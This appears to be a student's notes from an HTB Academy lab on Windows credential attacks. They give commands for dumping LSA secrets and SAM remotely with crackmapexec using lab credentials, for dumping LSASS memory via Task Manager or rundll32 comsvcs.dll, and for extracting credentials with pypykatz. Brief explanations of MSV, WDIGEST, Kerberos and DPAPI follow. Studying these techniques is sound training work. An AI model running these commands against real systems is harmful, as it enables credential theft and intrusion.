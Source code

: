 #### Dumping LSA Secrets Remotely
```Shell
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

#### Dumping SAM Remotely
```Shell
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```


## Attacking LSASS

### Dumping LSASS Process Memory

#### Task Manager Method
![[Pasted image 20230305105100.png]]
A file called lsass.DMP is created and saved in: `C:\Users\loggedonusersdirectory\AppData\Local\Temp`

### Rundll32.exe & Comsvcs.dll Method (No-GUI)

#### Finding LSASS PID in cmd
```cmd.exe
tasklist /svc
```

#### Finding LSASS PID in PowerShell
```PowerShell
Get-Process lsass
```

#### Creating lsass.dmp using PowerShell
```PowerShell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

*Note: We can use the file transfer method discussed in the Attacking SAM section to get the lsass.dmp file from the target to our attack host.*

### Using Pypykatz to Extract Credentials

#### Running Pypykatz
```Shell
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```

#### Dissecting the Outputs:
- MSV: an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database
- WDIGEST: an older authentication protocol enabled by default in Windows XP - Windows 8 and Windows Server 2003 - Windows Server 2012. LSASS caches credentials used by WDIGEST in clear-text.
- Kerberos: a network authentication protocol used by Active Directory in Windows Domain environments. Consists of tickets. LSASS caches passwords, ekeys, tickets, and pins associated with Kerberos. It is possible to extract these from LSASS process memory and use them to access other systems joined to the same domain.
- DPAPI: a set of APIs in Windows operating systems used to encrypt and decrypt DPAPI data blobs on a per-user basis for Windows OS features and various third-party applications (e.g., Internet Explorer, Google Chrome, Outlook, Remote Desktop Connection, Credential Manager)
